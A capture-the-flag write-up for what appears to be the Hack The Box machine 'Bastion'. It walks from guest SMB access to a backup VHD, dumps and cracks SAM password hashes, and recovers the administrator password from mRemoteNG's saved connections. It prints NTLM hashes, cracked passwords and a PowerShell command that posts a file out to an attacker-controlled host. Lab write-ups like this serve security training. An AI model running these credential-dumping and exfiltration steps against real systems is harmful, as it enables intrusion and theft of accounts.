

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

# ROOT

Found a non-standard tool called `mRemoteNG`

With some research I've found out that `mRemote` saves files in an insecure way within the `confCons.xml` file.


Running this command below to extract the file

```
powershell Invoke-WebRequest -Uri http://10.10.14.55:8080 -Method Post -Infile <FILE_NAME>
```

Reading the link [here](http://hackersvanguard.com/mremoteng-insecure-password-storage/) states that a confCons.xml file can be read into the mRemoteNG program and the password can be viewed.

Navigating to:

```
C:\Users\L4mpje\AppData\Roaming\mRemoteNG
``` 

On the machine gives us access to a `confCons.xml` file.

Loading this into mRemoteNG and following the instructions to add:

```
/k echo %password%
```

As the command allows us to view the password

```
Administrator
thXLHM96BeKL0ER2
```

This can be used to log in via SSH and retrieve the flag!